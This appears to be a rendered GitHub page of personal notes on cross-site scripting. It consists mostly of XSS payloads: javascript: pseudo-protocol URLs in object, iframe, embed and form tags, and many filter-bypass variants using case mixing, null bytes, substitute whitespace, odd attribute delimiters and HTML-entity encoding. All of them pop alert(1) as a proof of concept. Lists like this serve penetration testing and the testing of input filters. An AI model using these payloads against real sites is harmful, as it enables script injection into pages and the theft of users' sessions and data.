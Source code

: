 **Script pseudo protocols**
Substitute urls for an inline scritp (Could be javascript or others as 	vbs in Internet Explorer)
```
<object data=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>

### HTML5
<form id=test /><button form=test formaction=javascript:alert(1)>
<event-source src=javascript:alert(1)>
```

**CSS for XSS**
In general this is useless nowadays but it's good to know that this exists


**Bypassing filters: HTML**
```text
<img onerror=alert(1) src=a>
#######Tags#########
	<iMg onerror=alert(1) src=a>
	<[%00]img onerror=alert(1) src=a>
	<i[%00]mg onerror=alert(1) src=a>
	#arbitrary tag
	<x onclick=alert(1) src=a>Click here</x>

	#sustitute spaces!
	<img/onerror=alert(1) src=a>
	<img[%09]onerror=alert(1) src=a>
	<img[%0d]onerror=alert(1) src=a>
	<img[%0a]onerror=alert(1) src=a>
	<img/"onerror=alert(1) src=a>
	<img/'onerror=alert(1) src=a>
	<img/anyjunk/onerror=alert(1) src=a>

#######Attribute Names#########
	<img o[%00]nerror=alert(1) src=a>

#######Attribute Delimiters#########
	<img onerror="alert(1)"src=a>
	<img onerror='alert(1)'src=a>
	<img onerror=`alert(1)`src=a>	
	#Using backticks in the atributes we can disguide the event handler name
	<img src='a'onerror=alert(1)> ##This way the server will think that the event handler es called "aonerror" an not "onerror" but the browser will understand correctly

#####Mixing sustitute spaces + attribute delimiter
	<img onerror="alert(1)"src=a>


#####Attribute values
#We can apply null byte + HTML encode
##Apply decimal and hexadecimal format and add superfluous leading zeros and ommit the trailing semicolon.
	<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >
	<img onerror=a&#x06c;ert(1) src=a> #hex
	<img onerror=a&#x006c;ert(1) src=a> #hex
	<img onerror=a&#x0006c;ert(1) src=a> #hex
	<img onerror=a&#108;ert(1) src=a> #dec
	<img onerror=a&#0108;ert(1) src=a> #dec
	<img onerror=a&#108ert(1) src=a> #dec
	<img onerror=a&#0108ert(1) src=a> #dec


#script tag!
```